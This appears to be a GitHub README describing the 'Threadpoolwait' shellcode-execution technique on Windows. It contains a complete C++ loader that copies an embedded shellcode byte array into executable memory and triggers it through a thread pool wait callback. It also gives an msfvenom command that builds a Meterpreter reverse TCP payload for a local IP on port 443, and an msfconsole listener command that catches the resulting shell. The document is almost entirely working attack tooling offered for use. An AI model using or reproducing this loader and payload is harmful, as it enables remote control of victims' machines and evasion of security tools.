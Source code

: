 # Threadpoolwait

### Techniques

* CreateEvent is used to create an event object with a Signaled state
* RWX memory for the shellcode is allocated with VirtualAlloc and the shellcode is written there
* CreateThreadpoolWait is used to create a wait object. 1st argument of the function is a callback function, that will be called once the wait ends (immediately in our case, since our waitable event is in the Signaled state from the start). We will pass the address of our shellcode (allocated in step 2) as the callback function
* SetThreadpoolWait is used to set wait object to the wait object created in step 3
* WaitForSingleObject is used to wait for the waitable object to become Signaled, but since our event (waitable) object was created with a Signaled state in step 1, our callback function specified in step 3 is called and the shellcode is executed right away

##### Threadpool.cpp

```cpp
#include <windows.h>
#include <threadpoolapiset.h>

unsigned char shellcode[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x8b\x52\x10\x8b\x42\x3c\x57\x01\xd0\x8b\x40\x78"
"\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b\x58\x20\x50\x01\xd3"
"\x85\xc9\x74\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac"
"\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
"\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
"\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
"\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x2e\x68\x02"
"\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";



int main()
{
//CreateEvent is used to create an event object with a Signaled state
HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
//we allocate memory in the local process for our payload:
LPVOID shellcodeAddress = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
//Copies the contents of a source memory block to a destination memory block
RtlMoveMemory(shellcodeAddress, shellcode, sizeof(shellcode));
//CreateThreadpoolWait is used to create a wait object. 
//1st argument of the function is a callback function, 
// that will be called once the wait ends 
//(immediately in our case, since our waitable event is in the Signaled state from the start).
// We will pass the address of our shellcode (allocated in step 2) as the callback function
PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)shellcodeAddress, NULL, NULL);
SetThreadpoolWait(threadPoolWait, event, NULL);
WaitForSingleObject(event, INFINITE);

return 0;
}
```

### Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443  -f c 
```

### Listener

```bash
 msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```

Tips : run on x86 
